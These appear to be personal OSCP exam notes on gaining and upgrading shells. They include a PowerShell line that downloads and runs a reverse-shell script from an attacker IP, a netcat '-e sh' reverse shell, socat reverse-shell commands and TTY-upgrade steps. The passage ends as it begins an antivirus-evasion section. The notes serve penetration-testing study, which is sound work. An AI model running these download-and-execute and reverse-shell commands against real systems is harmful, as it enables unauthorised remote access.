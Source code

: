 ## Shell Upgrades

python3 -c 'import pty; pty.spawn("/bin/bash")'

Cheat Sheet: https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html

### to get a reverseshell from a non interactive cmd, upload Invoke-ConPtyShell and execute
- https://github.com/antonioCoco/ConPtyShell/blob/master/README.md
-  `powershell IEX(IWR http://192.168.45.230/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.45.230 443`

### Make a note of this somewhere
`busybox nc 10.10.10.10 1234 -e sh`

### getting a better shell with socat
 1. From kali
- sudo socat file:'tty',raw,echo=0 tcp-listen:443
 2. From target
- socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.45.230:443

### get better shell from reverse shell:
1. CTRL Z
2. stty raw -echo; fg
3. export TERM=xterm


## Upgrading Shells to fully interactive

### Python
1. python -c 'import pty; pty.spawn("/bin/bash")'
2. background reverse shell using CTRL-Z
3. echo $TERM
4. stty -a
	5. Take note of the TERM type and size of the tty 
		6. Ex: xterm-256 color and rows 38; columns 116
5. Then with the reverse shell still in background "stty raw -echo"
6. fg
7. reset
8. export SHELL=bash
9. export TERM=xterm-256 color (for example)
10. stty rows 38 columns 116 

### Without Python there are others
https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys

# Various 
## Antivirus Evasion
As these are my OSCP notes, and AV Evasion is outside the scope of the exam, I'm mostly leaving this content out of the guide for brevity. Below is a script for manual exploitation. It must be saved as an .ps1 file, transferred to the victim Windows machine, and ran (after powershell -ep bypass). 
